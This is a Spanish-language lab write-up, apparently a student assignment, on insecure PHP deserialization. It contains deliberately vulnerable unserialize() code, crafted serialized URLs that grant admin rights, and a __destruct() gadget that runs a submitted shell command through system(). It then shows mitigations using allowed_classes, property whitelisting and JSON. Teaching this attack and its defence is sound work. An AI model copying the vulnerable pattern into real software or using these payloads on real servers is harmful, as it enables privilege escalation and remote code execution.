







# PPS-Unidad3Actividad9DeserializacionInsegura-AdrianCurtoSanchez

 ## Código vulnerable

 Creamos el fichero `MostrarObjeto.php`:
 ```
<?php
class User {
    public $username;
    public $isAdmin = false;

}

if (isset($_GET['data'])) {
    $data = $_GET['data'];
    $obj = @unserialize($data);

    echo "<h3>Objeto deserializado:</h3>";
    echo "<pre>";
    print_r($obj);
    echo "</pre>";

    // Opcional: forzar destrucción
    unset($obj);
} else {
    echo "No se proporciona ningun dato.";
}
?>
 ```

 Y también creamos un archivo con nombre `GenerarObjeto.php` para visualizar los datos serializados y mostrar un enlace a `MostrarObjeto.php`:
 ```
<?php
class User {
    public $username;
    public $isAdmin = false;
}

$serialized = '';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $user = new User();
    $user->username = $_POST['username'] ?? 'anon';
    $user->isAdmin = ($_POST['isAdmin'] ?? '0') === '1';

    $serialized = serialize($user);
}
?>

<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Generador de Objeto Serializado</title>
</head>
<body>
    <h2>Generar objeto serializado</h2>
    <form method="post">
        <label>Nombre de usuario:</label>
        <input type="text" name="username" required><br><br>

        <label>¿Administrador?</label>
        <select name="isAdmin">
            <option value="0">No</option>
            <option value="1">Sí</option>
        </select><br><br>

        <button type="submit">Generar</button>
    </form>

    <?php if ($serialized): ?>
        <h3>Objeto serializado:</h3>
        <textarea cols="80" rows="4"><?= htmlspecialchars($serialized) ?></textarea><br><br>

        <p>
            <strong>Enlace para probar:</strong><br>
            <a href="MostrarObjeto.php?data=<?= urlencode($serialized) ?>" target="_blank">
                MostrarObjeto.php?data=<?= htmlspecialchars(urlencode($serialized)) ?>
            </a>
        </p>
    <?php endif; ?>
</body>
</html>
 ```
Accedemos a la URL http://localhost/deserializacion/GenerarObjeto.php y generamos un objeto.



Obteniendo la URL con el objeto serializado:
http://localhost/deserializacion/MostrarObjeto.php?data=O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A5%3A%22admin%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A1%3B%7D

## Explotación de Deserialización Insegura

### 1 - Modificar la serialización.

El objeto serializado es:

http://localhost/deserializacion/MostrarObjeto.php?data=O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A4%3A%22Raul%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A**0**%3B%7D

Cambio del valor IsAdmin:

http://localhost/deserializacion/MostrarObjeto.php?data=O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A4%3A%22Raul%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A**1**%3B%7D 

### 2 - Crear un archivo para crear la serialización con los datos que se deseen.

Crear el archivo HackerAdmin.php y ejecutar este código en la máquina atacante:
```
<?php
class User {
	public $username = "hacker";
	public $isAdmin = true;
}
echo urlencode(serialize(new User()));
?>
```

Obteniendo como salida el siguiente objeto serializado:



Si lo concatenamos con la URL de mostrar obtejeto http://localhost/deserializacion/MostrarObjeto.php?data=O%3A4%3A%22User%22%3A2%3A{s%3A8%3A%22username%22%3Bs%3A6%3A%22hacker%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A1%3B}



#### RCE(Remote code execution) con __destruct()

Creamos el fichero `GenerarObjeto1.php` con la clase `__destruct()` la cual permite RCE:
```
<?php
class User {
    public $username;
    public $isAdmin = false;
    public $cmd;

    public function __destruct() {
        if (!empty($this->cmd)) {
            //echo "<pre>Ejecutando comando: {$this->cmd}\n";
            system($this->cmd);
            //echo "</pre>";
        }
    }
}
$serialized = '';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $user = new User();
    $user->username = $_POST['username'] ?? 'anon';
    $user->isAdmin = ($_POST['isAdmin'] ?? '0') === '1';

    $serialized = serialize($user);
}
?>

<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Generador de Objeto Serializado</title>
</head>
<body>
    <h2>Generar objeto serializado</h2>
    <form method="post">
        <label>Nombre de usuario:</label>
        <input type="text" name="username" required><br><br>

        <label>¿Administrador?</label>
        <select name="isAdmin">
            <option value="0">No</option>
            <option value="1">Sí</option>
        </select><br><br>

        <button type="submit">Generar</button>
    </form>

    <?php if ($serialized): ?>
        <h3>Objeto serializado:</h3>
        <textarea cols="80" rows="4"><?= htmlspecialchars($serialized) ?></textarea><br><br>

        <p>
            <strong>Enlace para probar:</strong><br>
            <a href="MostrarObjeto.php?data=<?= urlencode($serialized) ?>" target="_blank">
                MostrarObjeto.php?data=<?= htmlspecialchars(urlencode($serialized)) ?>
            </a>
        </p>
    <?php endif; ?>
</body>
</html>
```

Vamos a modificar el objeto malicioso para introducir un código a ejecutar. El atacante de esta manera, podría serializar el objeto introduciendo un código para ejecutar en nuestro servidor, Este archivo lo llamo `explotarGenerarObjeto1.php`:
```
<?php
class User {
    public $username;
    public $isAdmin = false;
    public $cmd;

    public function __destruct() {
        if (!empty($this->cmd)) {
            // ⚠️ Ejecución insegura de código del sistema
            echo "<pre>Ejecutando comando: {$this->cmd}\n";
            system($this->cmd);
            echo "</pre>";
        }
    }
}

$serialized = '';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $user = new User();
    $user->username = $_POST['username'] ?? 'anon';
    $user->isAdmin = ($_POST['isAdmin'] ?? '0') === '1';
    $user->cmd = $_POST['cmd'] ?? '';

    $serialized = serialize($user);
}
?>

<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Generador de Objeto Serializado</title>
</head>
<body>
    <h2>Generar objeto serializado con código ejecutable</h2>
    <form method="post">
        <label>Nombre de usuario:</label>
        <input type="text" name="username" required><br><br>

        <label>¿Administrador?</label>
        <select name="isAdmin">
            <option value="0">No</option>
            <option value="1">Sí</option>
        </select><br><br>

        <label>Comando a ejecutar (ej: <code>whoami</code>):</label><br>
        <input type="text" name="cmd" size="50"><br><br>

        <button type="submit">Generar</button>
    </form>

    <?php if ($serialized): ?>
        <h3>Objeto serializado:</h3>
        <textarea cols="80" rows="4"><?= htmlspecialchars($serialized) ?></textarea><br><br>

        <p>
            <strong>Enlace para probar:</strong><br>
            <a href="MostrarObjeto1.php?data=<?= urlencode($serialized) ?>" target="_blank">
                MostrarObjeto.php?data=<?= htmlspecialchars(urlencode($serialized)) ?>
            </a>
        </p>
    <?php endif; ?>
</body>
</html>
```

Prueba de ejecución:


Como podemos observar al ejecutarse la función `__destruct()` tambien se ejecuta el comando que hemos especificado en el formulario.

## Mitigación de Unsafe Deserialization

### ¿Cómo Validar los datos?

Si queremos mitigar realmente ese problema (que no se puedan añadir propiedades inesperadas), una estrategia efectiva es usar la interfaz `Serializable` o `__wakeup()` junto con la visibilidad privada o protegida de las propiedades, y una validación explícita del contenido deserializado.

Para ello creamos el archivo `MostrarObjeto1.php`:
```
<?php
class User {
    public $username;
    public $isAdmin = false;

    public function __destruct() {
        if (!empty($this->cmd)) {
            echo "<pre>Ejecutando comando (simulado): {$this->cmd}</pre>";
            // system($this->cmd); // ← mantener comentado para pruebas seguras
        }
    }
}

if (isset($_GET['data'])) {
    $data = $_GET['data'];

    // Deserialización segura: solo se permite la clase User
    $obj = @unserialize($data, ['allowed_classes' => ['User']]);

    if (!$obj instanceof User) {
        echo "Error: El objeto deserializado no es de tipo User.";
        exit;
    }

    // Propiedades permitidas
    $propiedadesPermitidas = ['username', 'isAdmin'];

    // Obtener propiedades reales del objeto deserializado
    $propiedadesObjeto = array_keys(get_object_vars($obj));

    // Verificar que no hay propiedades adicionales
    $propiedadesExtra = array_diff($propiedadesObjeto, $propiedadesPermitidas);

    if (!empty($propiedadesExtra)) {
        echo "<h3>Error:</h3>";
        echo "El objeto contiene propiedades no permitidas: <pre>" . implode(", ", $propiedadesExtra) . "</pre>";
        exit;
    }

    // Validar tipos de propiedades
    $errores = [];

    if (!isset($obj->username) || !is_string($obj->username)) {
        $errores[] = "El campo 'username' no está definido o no es una cadena.";
    }

    if (!isset($obj->isAdmin) || !is_bool($obj->isAdmin)) {
        $errores[] = "El campo 'isAdmin' no está definido o no es booleano.";
    }


    if (!empty($errores)) {
        echo "<h3>Errores de validación:</h3><ul>";
        foreach ($errores as $e) {
            echo "<li>" . htmlspecialchars($e) . "</li>";
        }
        echo "</ul>";
        exit;
    }

    echo "<h3>Objeto deserializado válidamente:</h3>";
    echo "<pre>";
    print_r($obj);
    echo "</pre>";

    // Forzar destrucción
    unset($obj);
} else {
    echo "No se proporciona ningún dato.";
}

?>

```

Comprobamos que bloquea la ejecución de código.



## Utilizando JSON

La mejor forma de evitar ataques de deserialización insegura es no usar `unserialize()` con datos externos.

Usar JSON en lugar de `serialize()`.

Creamos el archivo `MostrarObjetoJson.php`:
```
<?php
class User {
    private $username;
    private $isAdmin = false;
    private $cmd;

    public function __construct($username, $isAdmin, $cmd) {
        $this->username = $username;
        $this->isAdmin = $isAdmin;
        $this->cmd = $cmd;
    }

    public function __toString() {
        return "Usuario: {$this->username}<br>" .
               "Es administrador: " . ($this->isAdmin ? "Sí" : "No") . "<br>" .
               "Comando: " . htmlspecialchars($this->cmd);
    }
}

if (isset($_GET['data'])) {
    $json = $_GET['data'];

    $data = json_decode($json, true);

    // Validar que sea JSON válido
    if (json_last_error() !== JSON_ERROR_NONE) {
        echo "JSON mal formado.";
        exit;
    }

    // Claves permitidas
    $clavesPermitidas = ['username', 'isAdmin', 'cmd'];
    $clavesRecibidas = array_keys($data);

    // Verificar si hay claves no permitidas
    $clavesNoPermitidas = array_diff($clavesRecibidas, $clavesPermitidas);

    if (!empty($clavesNoPermitidas)) {
        echo "Error: El JSON contiene claves no permitidas: ";
        echo "<pre>" . implode(", ", $clavesNoPermitidas) . "</pre>";
        exit;
    }

    // Validar tipos de datos
    if (!isset($data['username'], $data['isAdmin'], $data['cmd']) ||
        !is_string($data['username']) ||
        !is_bool($data['isAdmin']) ||
        !is_string($data['cmd'])) {
        echo "Datos inválidos.";
        exit;
    }

    // Crear el objeto
    $user = new User($data['username'], $data['isAdmin'], $data['cmd']);

    echo "<h3>Datos recibidos:</h3>";
    echo "<pre>{$user}</pre>";
} else {
    echo "No se proporciona ningún dato.";
}
?>

```

Creamos también el archivo `GenerarObjetoJson.php` que nos creará un objeto JSON Alumno que es administrador:
```
<?php
$data = [
    "username" => "alumno",
    "isAdmin" => true,
    "cmd" => "id" // esto no se ejecutará, solo se mostrará como texto
];
echo urlencode(json_encode($data));
?>

```

Accedemos a la URL http://localhost/deserializacion/GenerarObjetoJson.php.



Concatenamos el objeto con la URL para mostrar los objetos http://localhost/deserializacion/MostrarObjetoJson.php?data=%7B%22username%22%3A%22alumno%22%2C%22isAdmin%22%3Atrue%2C%22cmd%22%3A%22id%22%7D



Al mostrar el objeto el comando `id` solo se muestra, no se ejecuta.
